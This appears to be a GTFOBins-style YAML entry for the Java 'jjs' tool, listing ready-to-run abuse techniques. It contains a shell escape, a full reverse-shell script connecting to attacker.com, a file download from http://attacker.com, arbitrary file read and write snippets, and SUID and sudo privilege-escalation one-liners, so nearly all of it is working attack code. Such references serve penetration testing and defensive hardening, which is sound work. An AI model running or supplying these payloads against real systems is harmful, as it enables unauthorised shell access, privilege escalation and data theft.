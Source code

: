 ```yaml
---
description: This tool is installed starting with Java SE 8.
functions:
  shell:
    - code: echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | jjs
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'var host=Java.type("java.lang.System").getenv("RHOST");
        var port=Java.type("java.lang.System").getenv("RPORT");
        var ProcessBuilder = Java.type("java.lang.ProcessBuilder");
        var p=new ProcessBuilder("/bin/bash", "-i").redirectErrorStream(true).start();
        var Socket = Java.type("java.net.Socket");
        var s=new Socket(host,port);
        var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
        var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){ while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush();po.flush(); Java.type("java.lang.Thread").sleep(50); try {p.exitValue();break;}catch (e){}};p.destroy();s.close();' | jjs
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        echo "var URL = Java.type('java.net.URL');
        var ws = new URL('$URL');
        var Channels = Java.type('java.nio.channels.Channels');
        var rbc = Channels.newChannel(ws.openStream());
        var FileOutputStream = Java.type('java.io.FileOutputStream');
        var fos = new FileOutputStream('$LFILE');
        fos.getChannel().transferFrom(rbc, 0, Number.MAX_VALUE);
        fos.close();
        rbc.close();" | jjs
  file-write:
    - code: |
        echo 'var FileWriter = Java.type("java.io.FileWriter");
        var fw=new FileWriter("./file_to_write");
        fw.write("DATA");
        fw.close();' | jjs
  file-read:
    - code: |
        echo 'var BufferedReader = Java.type("java.io.BufferedReader");
        var FileReader = Java.type("java.io.FileReader");
        var br = new BufferedReader(new FileReader("file_to_read"));
        while ((line = br.readLine()) != null) { print(line); }' | jjs
  suid:
    - description: This has been found working in macOS but failing on Linux systems.
      code: echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs
  sudo:
    - code: echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | sudo jjs
---
```

